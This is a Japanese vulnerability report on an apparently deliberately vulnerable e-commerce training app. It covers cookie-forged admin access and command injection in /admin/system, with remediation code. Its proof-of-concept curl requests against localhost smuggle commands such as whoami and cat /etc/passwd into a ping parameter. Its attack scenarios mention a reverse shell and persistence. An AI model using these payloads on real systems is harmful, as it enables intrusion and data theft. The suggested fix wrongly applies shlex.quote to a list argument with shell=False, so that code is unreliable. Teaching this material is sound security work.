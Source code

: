 # 権限昇格脆弱性レポート

## 発見された脆弱性

### 1. Cookieベース権限昇格 (Critical)

**場所:** `app/routes/admin.py` の全管理者機能  
**CVSS:** 9.8 (Critical)

**脆弱性の詳細:**
```python
is_admin = request.cookies.get('is_admin', 'false')
admin_check = is_admin.lower() in ['true', '1', 'yes']
```

**攻撃手順:**
1. 通常ユーザーでログイン
2. ブラウザの開発者ツールでCookieを編集:
   - `is_admin=true`
   - `user_id=1` 
   - `role=admin`
3. 管理者ページにアクセス → 成功

### 2. コマンドインジェクション (Critical)

**場所:** `/admin/system` エンドポイント  
**CVSS:** 10.0 (Critical)

**脆弱性の詳細:**
```python
cmd = f'ping -n 4 {target}'
result = subprocess.check_output(cmd, shell=True, text=True, timeout=15)
```

**攻撃例:**
```
GET /admin/system?target=127.0.0.1%26%26whoami
GET /admin/system?target=127.0.0.1%3Bcat%20/etc/passwd
GET /admin/system?target=127.0.0.1%7Cdir
```

### 3. 弱い権限チェック (High)

**場所:** `/admin/system` のuser_id チェック  
**脆弱性:** 
```python
if user_id == '1':  # 文字列比較、容易に偽装可能
```

## 攻撃シナリオ

### シナリオ1: 完全な権限奪取
1. **初期アクセス:** 通常ユーザーアカウント取得
2. **権限昇格:** Cookie操作で管理者権限偽装
3. **データ窃取:** 全ユーザー情報の取得
4. **永続化:** 管理者アカウント作成
5. **横移動:** コマンドインジェクションでシステム侵害

### シナリオ2: リモートコード実行
1. Cookie操作で管理者権限取得
2. `/admin/system?target=...` でコマンドインジェクション
3. リバースシェル起動
4. サーバー完全制御

## 影響範囲

### アクセス可能な管理者機能:
- ✅ `/admin` - 管理者ダッシュボード
- ✅ `/admin/users` - ユーザー管理 (個人情報漏洩)
- ✅ `/admin/orders` - 注文管理 (決済情報漏洩)
- ✅ `/admin/products` - 商品管理 (改ざん可能)
- ✅ `/admin/reviews` - レビュー管理 (改ざん可能)
- ✅ `/admin/system` - システム管理 (RCE可能)

### 攻撃可能な操作:
- ユーザーアカウント削除・編集
- 商品情報の改ざん・削除
- 注文データの改ざん
- システム情報の窃取
- OSコマンドの実行
- ファイルシステムへのアクセス

## PoC (Proof of Concept)

### ブラウザでの手動攻撃:
1. F12で開発者ツールを開く
2. Applicationタブ → Cookies
3. 以下を設定:
   ```
   is_admin = true
   user_id = 1
   role = admin
   ```
4. `/admin` にアクセス → 管理者ダッシュボード表示

### コマンドインジェクション:
```bash
# ユーザー情報取得
curl "http://localhost:5000/admin/system?target=127.0.0.1%26%26whoami" \
  -H "Cookie: is_admin=true; user_id=1; role=admin"

# ディレクトリ一覧
curl "http://localhost:5000/admin/system?target=127.0.0.1%26%26dir" \
  -H "Cookie: is_admin=true; user_id=1; role=admin"

# ファイル読み取り (Linux)
curl "http://localhost:5000/admin/system?target=127.0.0.1%26%26cat%20/etc/passwd" \
  -H "Cookie: is_admin=true; user_id=1; role=admin"
```

## 修正方法

### 1. 適切な権限管理の実装
```python
# 現在（脆弱）
is_admin = request.cookies.get('is_admin', 'false')

# 修正後（安全）
def check_admin_permission():
    user_id = session.get('user_id')
    if not user_id:
        return False
    
    user = safe_database_query(
        "SELECT is_admin FROM users WHERE id = %s", 
        (user_id,), fetch_one=True
    )
    return user and user.get('is_admin', False)
```

### 2. コマンドインジェクションの修正
```python
# 現在（脆弱）
cmd = f'ping -n 4 {target}'
result = subprocess.check_output(cmd, shell=True)

# 修正後（安全）
import shlex
target = shlex.quote(target)  # エスケープ処理
cmd = ['ping', '-n', '4', target]  # 配列形式
result = subprocess.check_output(cmd, shell=False)
```

### 3. セッション管理の強化
```python
# JWTトークンやサーバーサイドセッションの使用
# Cookie改ざん防止の実装
# セッション固定攻撃対策
```

## 学習価値

この脆弱性は以下のセキュリティ概念を学習できます:

1. **権限管理の重要性**
2. **Cookieセキュリティ**
3. **コマンドインジェクション**
4. **権限昇格攻撃**
5. **多段階攻撃**

**この脆弱性により、通常ユーザーが完全な管理者権限を取得し、システム全体を侵害することが可能です。**